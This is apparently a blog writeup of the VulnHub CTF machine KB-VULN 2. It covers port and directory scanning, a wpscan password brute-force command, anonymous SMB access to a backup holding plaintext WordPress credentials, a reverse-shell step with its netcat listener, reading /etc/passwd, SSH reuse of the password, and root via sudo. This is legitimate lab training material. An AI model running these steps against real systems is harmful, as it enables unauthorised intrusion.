 ```yaml
---
title: "KB-VULN: 2 Writeup"
description: "KB-VULN 2 Walkthrough"
layout: post
categories: [CTF]
---
```


{% highlight text %}
Machine Level : Easy

A machine that measures your attention and require your research. This VM is running on VirtualBox. It includes 2 flags:user.txt and flag.txt
{% endhighlight %}
You can find the .ova file [here](https://www.vulnhub.com/entry/kb-vuln-2,562/)

nmap service scan on the target:
{% highlight terminal %}
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
{% endhighlight %}

gobuster output: 
{% highlight terminal %}
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.56.107/wordpress/]
{% endhighlight %}

wpscan: 
{% highlight terminal %}
wpscan -U admin -P /usr/share/wordlists/rockyou.txt --url http://kb.vuln/wordpress/ 
{% endhighlight %}

Trying to bruteforce the login with the rockyou.txt wordlist failed so lets 
enumerate the Samba shares on the system. 

SMB enumeration: 
{% highlight terminal %}
 smbmap -H 192.168.56.107
[+] Guest session   	IP: 192.168.56.107:445	Name: kb.vuln                                           
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Anonymous                                         	READ ONLY	OPEN YOUR EYES!
	IPC$                                              	NO ACCESS	IPC Service (Samba Server 4.7.6-Ubuntu)
{% endhighlight %}
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ smbclient -L 192.168.56.107
Enter WORKGROUP\kali's password: 

	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      OPEN YOUR EYES!
	IPC$            IPC       IPC Service (Samba Server 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available
{% endhighlight %}

Mounting the SMB share:
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.56.107/Anonymous
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 17 06:58:56 2020
  ..                                  D        0  Wed Sep 16 06:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 06:58:56 2020
{% endhighlight %}

There's a file inside the backup.zip archive called "remember_me.txt" which contains the
admin password for the WordPress installation: 

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN2]
└─$ cat remember_me.txt 
Username:admin
Password:MachineBoy141
{% endhighlight %}


#### Getting a low privilege shell
Now we can upload/inject our reverse TCP shell code either via the plugins or 
the theme editor section of the WordPress instance. 

Setting up the netcat listener on the attacker machine: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN]
└─$ nc -lp 6666                                                             2 ⨯
Linux kb-server 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:53:37 up 34 min,  0 users,  load average: 0.00, 0.75, 1.68
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}


Checking the passwd file:
{% highlight terminal %}
$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
kbadmin:x:1000:1000:MachineBoy:/home/kbadmin:/bin/bash
$ 
{% endhighlight %}

Enumerating the `/var/www/html` directory:
{% highlight terminal %}
www-data@kb-server:/var/www$ cd html
cd html
www-data@kb-server:/var/www/html$ ls -a
ls -a
.  ..  index.html  read_ME.txt	remember_me.txt  wordpress
www-data@kb-server:/var/www/html$ cat read_ME.txt
cat read_ME.txt
system administrator is kbadmin.
good luck ;)
www-data@kb-server:/var/www/html$
{% endhighlight %}

logging into SSH as kbadmin using the password found earlier in `remember_me.txt`

kbadmin:MachineBoy141

{% highlight terminal %}
kbadmin@kb-server:~$ cat user.txt 
03bf4d20dac5644c75e69e40bad48db0
kbadmin@kb-server:~$ cat note.txt 
use DOCKER!
kbadmin@kb-server:~$
{% endhighlight %}

The note is a red herring. 

{% highlight terminal %}
kbadmin@kb-server:~$ sudo -l
[sudo] password for kbadmin: 
Matching Defaults entries for kbadmin on kb-server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kbadmin may run the following commands on kb-server:
    (ALL : ALL) ALL
kbadmin@kb-server:~$ sudo -i
root@kb-server:~#
root@kb-server:~# cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
{% endhighlight %}

